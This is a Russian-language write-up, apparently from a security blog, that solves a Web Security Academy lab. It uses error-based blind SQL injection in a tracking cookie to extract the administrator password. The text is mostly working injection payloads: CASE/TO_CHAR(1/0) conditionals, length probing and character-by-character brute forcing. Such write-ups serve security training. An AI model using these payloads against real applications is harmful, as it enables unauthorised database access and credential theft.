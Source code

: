 ```yaml
---
title: "Blind SQL injection"
date: 2025-06-14T13:37:00-04:00
categories:
  - blog
tags:
  - writeup
  - web
---
```


## Scope

```
https://0ae90054044f120581a76bcc00c300ed.web-security-academy.net/
```

В данной лабе есть уязвимый к [[Blind based SQL injections(SQLi)| Blind based SQL injection]] параметр в `Cookie`.

В БД есть таблицы с именам `users` и колонками `username` и `password`.

Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.

## Notes

Во-первых, из условия известно, что уязвимость находится в `Cookie`, значит есть смысл сразу смотреть `HTTP` запросы.
Во-вторых, известно, что это `Blind Injection`, поэтому будет весело...

И так, возьму `GET`-запрос:

```HTTP
GET /filter?category=Gifts HTTP/2
Host: 0ae90054044f120581a76bcc00c300ed.web-security-academy.net
Cookie: TrackingId=qj7wR5JE68DIePPM; session=sdjSIBQgVY0TIDfdZDJ4oAKTKfz0ZAzb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af700f20342cbdda9c9b2a200cb0036.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

Скорее всего уязвимым является `TrackingId`. Попробую посмотреть, как изменится ответ, при не верном значении `TrackingId=qj7wR5JE68DIePPM`:

```HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5267
```

Запрос отработал корректно, попробую добавить кавычку `TrackingId=qj7wR5JE68DIePPM'`:

```HTTP
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2324
```

Значит обрамление для запроса - это одинарная кавычка `'`. Протестирую это:

```
qj7wR5JE68DIePPM' and 1=0-- -Ok
qj7wR5JE68DIePPM' and 1=1-- -OK
```

Оба запроса отработали корректно. Это значит, что обрамление подобрано корректно, но проверка условий не работает. В таком случае можно попробовать [[Error based SubQuery injections(SQLi)|Error based SQL injection]]. Ее идея в том, чтобы вызвать ошибку в запросе, благодаря чему у нас на странице может отобразиться сообщение о ней. Объединив это с оператором `CASE` можно сделать следующий запрос:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '1' END FROM dual) = '1'-- -Ok
qj7wR5JE68DIePPM' and (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '1' END FROM dual) = '1'-- -Error
```

Запрос работает. Теперь в качестве условия подставлю нужное условие. Попробую узнать длину пароля:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) < 40 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Error
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) < 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -OK
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) > 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Ok
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) = 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Error
```

Я получил ошибку на условии `LENGTH(password) = 20`, значит длина пароля 20 символов. Теперь использую `SUBSTR` для подбора каждого символа со следующим пейлоадом:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN SUBSTRING(password, 1, 1) = 'a' THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -
```

Для упрощения подбора я используют `Burp Suite Intruder` с атакой `Brute Force`.

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN SUBSTR(password, 1, 1) = 'a' THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -
```

Правильная буква будет в том случае, когда на запрос получается ошибка с кодом `500`, поэтому я отфильтровал другие запросы:

![[Pasted image 20250126154704.png]]

После 20 запросов я получил пароль: `h1dqh09pg0e86htryfv9`. Проверю его:

![[Pasted image 20250126155414.png]]

Вообще изи, решил не глядя)
